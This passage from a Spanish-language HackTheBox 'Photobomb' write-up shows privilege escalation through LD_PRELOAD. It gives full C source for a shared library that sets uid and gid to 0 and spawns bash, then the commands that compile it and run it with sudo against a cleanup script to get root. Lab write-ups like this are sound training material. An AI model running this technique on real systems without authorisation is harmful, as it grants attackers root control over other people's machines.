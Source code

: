 Partiendo de aquí existen 2 formas de escalar privilegios.

## Variable LD_PRELOAD [👨‍💻](#preload) {#preload}

> `LD_Preload es la variable de entorno que lista las rutas de la librerías compartidas, al igual que /etc/ld.so.preload.`

> Para poder escalar debemos crear un script en C con el siguiente contenido.

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
    void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}
```

Una vez creado lo compilamos con el comando:

`gcc -fPIC -shared -o escalada.so shell.c -nostartfiles`

![](/assets/images/HTB/Photobomb-HackTheBox/compiled.webp)

Y lo subimos la máquina víctima.

Una vez lo hemos subido lo ejecutamos.

`chmod 777 escalada.so`

`sudo LD_PRELOAD=/tmp/escalada.so /opt/cleanup.sh`

![](/assets/images/HTB/Photobomb-HackTheBox/root.webp)
